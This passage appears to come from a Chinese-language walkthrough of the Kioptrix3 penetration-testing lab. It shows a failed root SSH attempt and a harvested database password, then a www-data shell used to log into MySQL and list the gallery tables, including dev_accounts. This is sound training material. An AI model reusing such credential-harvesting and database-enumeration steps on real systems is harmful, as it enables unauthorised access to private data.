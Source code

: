     ❯ ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss root@192.168.2.145
    The authenticity of host '192.168.2.145 (192.168.2.145)' can't be established.
    RSA key fingerprint is SHA256:NdsBnvaQieyTUKFzPjRpTVK6jDGM/xWwUi46IR/h1jU.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '192.168.2.145' (RSA) to the list of known hosts.
    root@192.168.2.145's password: 
    Permission denied, please try again.
    root@192.168.2.145's password: 
    ```

-   成功登陆数据库：`root:fuckeyou`

-   ```shell
    www-data@Kioptrix3:/home/www/kioptrix3.com/gallery$ mysql -uroot -pfuckeyou
    mysql -uroot -pfuckeyou
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 103
    Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)
    
    Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
    
    mysql> show databases;
    show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema | 
    | gallery            | 
    | mysql              | 
    +--------------------+
    3 rows in set (0.00 sec)
    
    mysql> use gallery
    use gallery
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Database changed
    mysql> show tables;
    show tables;
    +----------------------+
    | Tables_in_gallery    |
    +----------------------+
    | dev_accounts         | 
    | gallarific_comments  | 
    | gallarific_galleries | 
    | gallarific_photos    | 
    | gallarific_settings  | 
    | gallarific_stats     | 
    | gallarific_users     | 
    +----------------------+
    7 rows in set (0.00 sec)
    